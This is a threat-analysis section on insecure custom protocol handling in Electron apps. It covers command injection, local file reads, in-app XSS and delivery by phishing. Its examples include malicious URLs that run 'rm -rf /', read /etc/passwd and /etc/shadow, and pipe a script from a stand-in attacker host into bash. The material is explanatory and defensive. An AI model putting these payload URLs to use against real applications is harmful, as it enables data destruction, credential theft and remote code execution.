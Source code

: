 ### 4. Deep Analysis of "Exploiting Insecure Custom Protocol Handling"

#### 4.1. Technical Breakdown of the Threat

Electron allows developers to register custom protocols (e.g., `myapp://`) that can be used to trigger actions within the application when such URLs are opened by the operating system. This mechanism relies on the operating system associating the custom protocol with the Electron application. When a URL with a registered custom protocol is encountered (e.g., by clicking a link in a browser or another application), the OS launches the associated Electron application and passes the URL to it.

The vulnerability arises when the Electron application **unsafely processes the data contained within the custom protocol URL**. This data, typically the part of the URL after the protocol identifier (e.g., `myapp://some/path?param=value`), is treated as input to the application. If this input is not properly validated and sanitized, attackers can craft malicious URLs to achieve unintended consequences.

**Key areas of vulnerability:**

*   **Direct Execution of Commands:** If the application directly uses parts of the URL to construct and execute shell commands or internal application functions without proper sanitization, it becomes vulnerable to command injection. For example, a malicious URL like `myapp://execute?command=rm -rf /` could be disastrous if the application naively executes the `command` parameter.
*   **Local File System Access:**  If the application uses the URL path to access local files without proper validation, an attacker could craft a URL like `myapp://readfile?path=/etc/passwd` to potentially read sensitive files.
*   **Cross-Site Scripting (XSS) within the Application:** While not traditional web-based XSS, if the application renders content based on the URL data without proper escaping, it could lead to the execution of arbitrary JavaScript within the Electron environment. This could potentially allow access to application data or even the underlying operating system.
*   **Bypassing Security Checks:**  Attackers might craft URLs to bypass intended security checks or authentication mechanisms within the application if the protocol handling logic is flawed.

#### 4.2. Attack Vectors and Scenarios

Attackers can leverage various methods to deliver malicious custom protocol URLs to a target user:

*   **Phishing Emails/Messages:** Embedding malicious `myapp://` links in emails or messages that trick users into clicking them.
*   **Malicious Websites:** Hosting web pages with links using the vulnerable custom protocol.
*   **Compromised Software:**  If other software on the user's system is compromised, it could be used to launch malicious custom protocol URLs.
*   **Man-in-the-Middle Attacks:** In certain scenarios, an attacker could intercept and modify legitimate URLs to inject malicious custom protocol links.

**Example Scenarios:**

*   **Scenario 1: Local File Access:**
    *   An Electron application registers the protocol `myimageviewer://`.
    *   The application handles URLs like `myimageviewer://open?file=/path/to/image.png`.
    *   An attacker sends a phishing email with the link `myimageviewer://open?file=/etc/shadow`.
    *   If the application doesn't validate the `file` parameter, it might attempt to open and display the contents of the sensitive `/etc/shadow` file.

*   **Scenario 2: Remote Code Execution:**
    *   An Electron application registers the protocol `myautomationtool://`.
    *   The application handles URLs like `myautomationtool://run?script=process_data.py`.
    *   An attacker crafts a URL like `myautomationtool://run?script=curl http://attacker.com/malicious.sh | bash`.
    *   If the application directly executes the `script` parameter without sanitization, it could lead to arbitrary code execution on the user's machine.
